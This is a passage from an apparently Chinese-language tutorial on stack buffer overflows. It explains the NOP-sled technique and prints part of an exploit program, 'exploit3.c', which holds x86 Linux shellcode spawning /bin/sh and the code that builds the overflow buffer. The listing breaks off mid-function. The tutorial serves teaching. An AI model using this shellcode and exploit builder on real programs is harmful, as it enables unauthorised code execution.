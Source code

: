 

正如我们所看到的，这不是一个有效率的过程。即使我们知道堆栈的起始位置，也几乎不可能猜测偏移量。我们最多需要一百次，最坏也需要几千次。问题是我们需要精确地猜测代码的地址将从哪里开始。如果我们多猜一个字节或少猜一个字节，我们只会得到一个段错误(segmentation violation)或一个非法指令(invalid instruction)。增加机会的一种方法是用NOP指令填充溢出缓冲区的前端。几乎所有处理器都有执行空操作的`NOP`指令。它通常用于延迟执行时间。我们将利用它并用它们填充溢出缓冲区的一半。我们将把我们的shellcode放在中心，然后在她后面放上返回地址。如果幸运的话，返回地址指向nop字符串中的任何一个地方，它们就会被执行，直到到达我们的代码为止。在英特尔体系结构中，NOP指令的长度为一个字节，在机器代码中转换为`0x90`。假设堆栈从地址`0xFF`开始，`S`代表`shell`代码，`N`代表`NOP`指令，新堆栈将如下所示：

![](stack5.png)



新的exp如下`exploit3.c`所示

```c
//exploit3.c
#include <stdlib.h> 
#define DEFAULT_OFFSET			0
#define DEFAULT_BUFFER_SIZE		512 
#define NOP						0x90

char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) { 
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i;
    
	if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);

    if (!(buff = malloc(bsize))) { 
        printf("Can't allocate memory.\n");
        exit(0);
    }
    
	addr = get_sp() - offset;
    printf("Using address: 0x%x\n", addr);
    
	ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;
    
	for (i = 0; i < bsize/2; i++)
        buff[i] = NOP;
    
	ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
```